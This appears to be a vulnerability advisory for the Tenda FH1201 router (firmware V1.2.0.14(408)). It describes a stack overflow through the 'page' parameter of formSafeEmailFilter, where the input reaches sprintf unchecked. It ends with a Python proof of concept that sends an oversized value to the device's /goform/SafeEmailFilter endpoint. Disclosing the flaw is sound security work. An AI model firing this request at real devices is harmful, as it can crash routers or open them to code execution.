


# Tenda FH1201 formSafeEmailFilter
### Overview
vendor: Tenda

product: FH1201

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the page parameter in the formSafeEmailFilter function.
### Vulnerability details
In function formSafeEmailFilter line 12, it reads in a user-provided parameter `page`, and the variable `v3` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SafeEmailFilter"

data = {
    "page": "a" * 1000
}

response = requests.get(url, params=data)
print(response.text)
```


